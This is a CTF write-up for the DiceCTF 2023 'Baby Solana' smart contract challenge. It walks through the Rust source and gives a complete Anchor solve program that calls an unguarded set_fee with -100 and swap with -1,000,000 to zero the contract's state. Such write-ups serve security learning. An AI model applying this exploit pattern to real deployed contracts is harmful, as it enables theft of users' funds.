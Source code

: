 ```yaml
---
title: "Dice '23 Baby Solana"
style: fill
color: danger
comments: true
description: dice ctf smart contract challenge
tags: CTF BlockChain Pwn
---
```

# Baby Solana

## Remark
So this was my first Solana pwn/challenge.
It was a great learning experience seeing Rust at work interacting with Solana.
It seems to have an interesting syntax!

## Source Code
Extracting the given folder provides two folders: framework and framework-solve

I was mostly interested main.rs and lib.rs within the framework folder.

Observe the code in main.rs:
```rust
        let ix = chall::instruction::InitVirtualBalance {
            x: 1_000_000,
            y: 1_000_001,
        };
```
I'm not 100% sure about the Rust syntax, but it seems like initializing instance variables in a class of a trivial Object Oriented language; in this case x and y to 1,000,000 and 1,000,001 respectively.

and
```rust
        if state.x == 0 && state.y == 0 {
            writeln!(socket, "congrats!")?;
            if let Ok(flag) = env::var("FLAG") {
                writeln!(socket, "flag: {:?}", flag)?;
            } else {
                writeln!(socket, "flag not found, please contact admin")?;
            }
        }
```
This will print the flag if x and y are both set to zero. This will be our aim.

In lib.rs, we can find two methods set_fee and swap that interact with fee, x, and y. These will allow us to control x and y and eventually print the flag:
```rust
    pub fn set_fee(ctx: Context<AuthFee>, fee: NUMBER) -> Result<()> {
        let state = &mut ctx.accounts.state.load_mut()?;

        state.fee = fee;

        Ok(())
    }
    
    pub fn swap(ctx: Context<Swap>, amt: NUMBER) -> Result<()> {
        let state = &mut ctx.accounts.state.load_mut()?;

        state.x += amt;
        state.y += amt;

        state.x += state.fee * state.x / 100;
        state.y += state.fee * state.y / 100;

        Ok(())
    }
```

## Attack Plan
We need to utilize these methods to manipulate the fee, x, and y.

We are given this code in lib.rs inside framework-solve folder:
```rust
pub fn get_flag(_ctx: Context<GetFlag>) -> Result<()> {
        Ok(())
    }
```

I assume that I need to complete this method get_flag to "get flag."

By studying the method swap, I concluded that if I can pass a value of -1,000,000 to amt and set fee as -100, I can set x and y as 0.

We pretty much have to set the fee first in order to call swap for another account and make x and y zero.

If we take a look at lib.rs again:
```rust
    pub fn set_fee(ctx: Context<AuthFee>, fee: NUMBER) -> Result<()> {
        let state = &mut ctx.accounts.state.load_mut()?;

        state.fee = fee;

        Ok(())
    }
    
    pub fn swap(ctx: Context<Swap>, amt: NUMBER) -> Result<()> {
        let state = &mut ctx.accounts.state.load_mut()?;

        state.x += amt;
        state.y += amt;

        state.x += state.fee * state.x / 100;
        state.y += state.fee * state.y / 100;

        Ok(())
    }
```
We see that the context needs to be AuthFee to call set_fee and Swap to call swap.
So I'll initialize two accounts, each being AuthFee and Swap type so that I could set the fee using AuthFee account and set x and y using Swap account.

## Exploiting
Within the framework-solve folder, I will edit lib.rs's getflag() method to call set_fee() and swap().

To call set_fee(), I need to create a AuthFee account, which can be set as:
```rust
let fee_accs = chall::cpi::accounts::AuthFee{
            state: _ctx.accounts.state.to_account_info(),
            payer: _ctx.accounts.payer.to_account_info(),
            system_program: _ctx.accounts.system_program.to_account_info(),
            rent: _ctx.accounts.rent.to_account_info(),
        };
```

Then, we can create an instance of fee_accs to be used to call set_fee like:
```rust
let fee = CpiContext::new(_ctx.accounts.chall.to_account_info(), fee_accs);
```

and we call set_fee as:
```rust
chall::cpi::set_fee(fee, -100)?;
```

Similarily, we set account type Swap, create an instance, and call swap as follows:
```rust
let swap_accs = chall::cpi::accounts::Swap{
            state: _ctx.accounts.state.to_account_info(),
            payer: _ctx.accounts.payer.to_account_info(),
            system_program: _ctx.accounts.system_program.to_account_info(),
            rent: _ctx.accounts.rent.to_account_info(),
        };

let swap_cpi = CpiContext::new(_ctx.accounts.chall.to_account_info(), swap_accs);
chall::cpi::swap(swap_cpi, -1_000_000)?;
```

Finally, running the provided ```./run.sh ``` gives us the flag.

## End
The final lib.rs looks like:
```rust
use anchor_lang::prelude::*;

use anchor_spl::token::Token;

declare_id!("osecio1111111111111111111111111111111111111");

#[program]
pub mod solve {
    use super::*;

    pub fn get_flag(_ctx: Context<GetFlag>) -> Result<()> {
        let fee_accs = chall::cpi::accounts::AuthFee{
            state: _ctx.accounts.state.to_account_info(),
            payer: _ctx.accounts.payer.to_account_info(),
            system_program: _ctx.accounts.system_program.to_account_info(),
            rent: _ctx.accounts.rent.to_account_info(),
        };

        let fee = CpiContext::new(_ctx.accounts.chall.to_account_info(), fee_accs);
        chall::cpi::set_fee(fee, -100)?;

        let swap_accs = chall::cpi::accounts::Swap{
            state: _ctx.accounts.state.to_account_info(),
            payer: _ctx.accounts.payer.to_account_info(),
            system_program: _ctx.accounts.system_program.to_account_info(),
            rent: _ctx.accounts.rent.to_account_info(),
        };

        let swap_cpi = CpiContext::new(_ctx.accounts.chall.to_account_info(), swap_accs);
        chall::cpi::swap(swap_cpi, -1_000_000)?;

        Ok(())
    }
}

#[derive(Accounts)]
pub struct GetFlag<'info> {
    #[account(mut)]
    pub state: AccountInfo<'info>,
    #[account(mut)]
    pub payer: Signer<'info>,

    pub system_program: Program<'info, System>,
    pub token_program: Program<'info, Token>,
    pub rent: Sysvar<'info, Rent>,
    pub chall: Program<'info, chall::program::Chall>
}
```
Thanks, 079.
